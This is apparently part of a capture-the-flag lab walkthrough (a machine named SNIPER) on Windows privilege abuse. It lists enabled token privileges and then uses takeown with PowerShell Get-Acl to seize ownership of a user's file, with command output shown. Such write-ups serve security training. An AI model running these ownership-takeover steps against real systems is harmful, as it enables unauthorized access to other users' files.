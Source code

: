 ```
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

```

Everything is now enabled so you can take advantage of it.

###### `Abusing SeTakeOwnershipPrivilege Privilege`

```
PS C:\users\chris> Get-Acl C:\Users\Chris\Desktop\user.txt
Get-Acl C:\Users\Chris\Desktop\user.txt


    Directory: C:\Users\Chris\Desktop


Path     Owner        Access                                                                                           
----     -----        ------                                                                                           
user.txt SNIPER\Chris SNIPER\Administrator Allow  FullControl...                                                       


PS C:\users\chris> takeown /f 'C:\Users\Chris\Desktop\user.txt'
takeown /f 'C:\Users\Chris\Desktop\user.txt'

SUCCESS: The file (or folder): "C:\Users\Chris\Desktop\user.txt" now owned by user "SNIPER\Administrator".



PS C:\users\chris> Get-Acl C:\Users\Chris\Desktop\user.txt
Get-Acl C:\Users\Chris\Desktop\user.txt

    Directory: C:\Users\Chris\Desktop

Path     Owner                Access                                                                                   
----     -----                ------                                                                                   
user.txt SNIPER\Administrator SNIPER\Administrator Allow  FullControl... 
```

Before it was own by the user Chris and now it own by Administrator.
